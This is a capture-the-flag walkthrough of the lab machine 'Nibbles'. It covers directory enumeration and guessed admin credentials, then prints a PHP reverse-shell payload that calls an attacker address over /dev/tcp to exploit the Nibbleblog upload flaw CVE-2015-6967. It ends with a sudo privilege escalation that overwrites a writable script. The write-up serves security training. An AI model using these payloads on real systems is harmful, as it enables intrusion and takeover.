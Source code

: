 # Nibbles (Linux)

# nmap 
22
80

# http
Blank website that says Hello World!
Inspected the web page source and found this:
 /nibbleblog/ directory. Nothing interesting here!

 Nothing here

# ffuf
`ffuf -u http://10.10.10.75/nibbleblog/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt`
Results:
content                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 75ms]
themes                  [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 74ms]
admin                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 78ms]
plugins                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 76ms]
README                  [Status: 200, Size: 4628, Words: 589, Lines: 64, Duration: 79ms]
languages               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 77ms]

In nibbleblog/content/private/config.xml I found type="string">admin@nibbles.com<

We also find it here http://10.10.10.75/nibbleblog/content/private/users.xml

Reading /README I found the version and also that this website uses .php
We can also confirm that with Wappalyzer

Decided to give another **ffuf** run, this time using `e .php` in the end of the command to look for **.php** files/directories.

We found a couple of interesting ones, but like always I decided to check **/admin.php** first.

We know that the username is admin. I first tried admin admin, then admin password. And after thinking about it for a couple seconds I remember seeing **@nibbles** as well.

I got in with admin nibbles. 

After exporing the admin webpage for a bit. I saw two main things; we can uplaod a file into plugins - MyImages and also in settings down below we see a version, Nibbleblog 4.0.3.

I found CVE-2015-6967:
Unrestricted file upload vulnerability in the My Image plugin in Nibbleblog before 4.0.5 allows remote administrators to execute arbitrary code by uploading a file with an executable extension, then accessing it via a direct request to the file in content/private/plugins/my_image/image.php.

From here we know we can possibly set up a revershell in this pay load and upload to MyImages.

rvshell.php
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/your.vpn.ip.address/1234 0>&1'");
```

Uploaded it then headed to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/ like the CVE said. 
I clicked on the **image.php** thus executing the payload on my machine; listening on port 7777 in my case. 

A quick whoami let's me know I am logged in as nibbler. 

Upgrade to a basic shell
`python3 -c "import pty; pty.spawn('/bin/bash')"`

`sudo -l`
Results:

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

I headed over to the correct direcorty and I had t unzip personal.zip. From here we were able to get the full path to monitor.sh

Since nibbler has ownership of that file, we can overwrite its contents and leverage sudo privileges to spawn a Bash sub-process with root user access.
```
cd /home/nibbler/personal/stuff
cp monitor.sh monitor.sh.orig
echo '/bin/bash -ip' > monitor.sh
sudo ./monitor.shell
```

2. **Creating a Backup:**
   ```bash
   cp monitor.sh monitor.sh.orig
   ```
   - Creates a backup of `monitor.sh` named `monitor.sh.orig` to restore it later if needed.

3. **Replacing the Script Content:**
   ```bash
   echo '/bin/bash -ip' > monitor.sh
   ```
   - Overwrites `monitor.sh` with a single line:
     ```bash
     /bin/bash -ip
     ```
   - This command launches an interactive privileged (`-p`) Bash shell.

4. **Executing the Script as Root:**
   ```bash
   sudo ./monitor.sh
   ```
   - Runs `monitor.sh` with elevated privileges (if `sudo` is allowed without a password for this script or user).

---

### **Why This Works?**
1. **Writable Script with `sudo` Execution:**
   - If `monitor.sh` is owned by your user (`nibbler`) but executed with `sudo`, you can modify its contents to execute arbitrary commands as root.

2. **Replacing the Script with a Bash Shell Command:**
   - By replacing `monitor.sh` with `/bin/bash -ip`, when `sudo ./monitor.sh` runs, it effectively spawns a root shell.

Once we execute the script as root I got the flag from **/root/root.txt**

PWNED!

### **Summary of the Nibbles (Linux) Hack:**
1. **Enumeration:**
   - Discovered `nibbleblog` directory via **nmap** and **ffuf**.
   - Identified **Nibbleblog 4.0.3** from `/README` and Wappalyzer.

2. **Gaining Initial Access:**
   - Found `admin@nibbles.com` in config and users XML files.
   - Logged into `/admin.php` using `admin:nibbles`.

3. **Exploiting File Upload Vulnerability (CVE-2015-6967):**
   - Uploaded a **PHP reverse shell** using the MyImages plugin.
   - Triggered shell execution by accessing `image.php`.

4. **Privilege Escalation:**
   - Found `sudo -l` allowed running `/home/nibbler/personal/stuff/monitor.sh` as root.
   - Overwrote `monitor.sh` to execute a **root shell**.
   - Used `sudo ./monitor.sh` to gain **root access**.

5. **Captured the Flag!** 🎉

---

### **Key Takeaways:**
- **Thorough Enumeration Wins:** Checking `/nibbleblog/` and `/admin.php` led to a valid login.
- **Try Default Credentials:** Found login with `admin:nibbles` by recognizing patterns in discovered information.
- **Read Publicly Accessible Files:** `/README`, `config.xml`, and `users.xml` revealed crucial info.
- **Leverage Known CVEs:** Found and exploited **CVE-2015-6967** for a reverse shell.
- **Check `sudo -l` for Privilege Escalation:** Found a writable script executed as root.
- **Modify Writable Scripts for Root Access:** Overwrote `monitor.sh` to spawn a root shell.

---

### **Things to Remember:**
- Use **ffuf** with extensions (`.php`) to uncover hidden files.
- Look for **config files** (`config.xml`, `users.xml`) for credentials.
- Check `/README` for **versions** and potential **exploits**.
- **File Upload Vulnerabilities** can lead to **Remote Code Execution**.
- **Writable scripts + sudo privileges** = **Easy root access**.
- Always **back up original files** before modifying them.

